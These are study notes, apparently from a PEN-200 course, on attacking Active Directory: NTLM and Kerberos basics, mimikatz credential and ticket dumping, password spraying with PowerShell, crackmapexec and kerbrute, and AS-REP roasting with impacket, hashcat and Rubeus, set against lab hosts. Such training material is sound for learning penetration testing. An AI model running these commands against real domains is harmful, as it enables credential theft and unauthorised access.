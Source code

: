 # AD attacks from Pen-200

### Authentication types

1) ***NTLM authentication*** is used when a client authenticates to a server by IP address (instead of by hostname), or if the user attempts to authenticate to a hostname that is not registered on the Active Directory-integrated DNS server. Likewise, third-party applications may choose to use NTLM authentication instead of Kerberos.
<img width="840" height="762" alt="image" src="https://github.com/user-attachments/assets/74f1aa65-78e5-416e-a503-f351577f3320" />

<br><br>

2) ***Kerberos client authentication*** involves the use of a domain controller in the role of a Key Distribution Center (KDC). The client starts the authentication process with the KDC and not the application server. A KDC service runs on each domain controller and is responsible for session tickets and temporary session keys to users and computers.

<img width="847" height="702" alt="image" src="https://github.com/user-attachments/assets/6d9de1ee-db2b-4627-8300-c15aea0499e1" />

<br><br>
3) ***Cached credentials***
   
Extract cached credentials with mimikatz.exe.  If LSASS protection is not enabled.

- privilege::debug
- sekurlsa::logonpasswords

Extract TGS and TGT tickets with mimikatz.exe  
- sekurlsa::tickets

Authentication / smart card - extract certificates private keys even if marked secure.  

The crypto module contains the capability to either patch the CryptoAPI function with crypto::capi or KeyIso service with crypto::cng,making non-exportable keys exportable.


### Brute Force attacks

Gather password policy to determine lockout: ***net accounts***  

<br>

Use directory entry to brute force accounts.  Adjust username/password.

``` powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```
<br>

There is a script that contains this technique ***Spray-Passwords.ps1***
[Spray-Passwords.ps1](https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)
<br><br>
<img width="852" height="368" alt="image" src="https://github.com/user-attachments/assets/0333a88d-18d7-458b-a86e-39bf8b0b41c8" />


Kali has crackmapexec.  
-d for DOMAIN  
--continue-on-success  (Continue even if you find valid credentials)

``` bash
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```
<br>

WINDOWS / LINUX have a tool called ***KERBRUTE*** to password spray  

``` 
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```


### AS-REP Roasting

Without Kerberos preauthentication in place, an attacker could send an AS-REQ to the domain controller on behalf of any AD user. After obtaining the AS-REP from the domain controller, the attacker could perform an offline password attack against the encrypted part of the response. This attack is known as AS-REP Roasting.

Use **impacket-GetNPUsers** to perform AS-REP roasting. We'll need to enter the IP address of the domain controller as an argument for **-dc-ip**, the name of the output file in which the AS-REP hash will be stored in Hashcat format for **-outputfile**, and **-request** to request the TGT.


***Credentials are provided in this command, PETE/password supply by stdin***  

Linux:<br>

Request AS-REP with impacket  
1)
``` bash
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

Crack the AS-REP request  
2) 
``` bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

<br>
Windows:<br>

On windows on the same domain, Rubeus will pass through logon session via kerberos.  

``` powershell
.\Rubeus.exe asreproast /nowrap
```
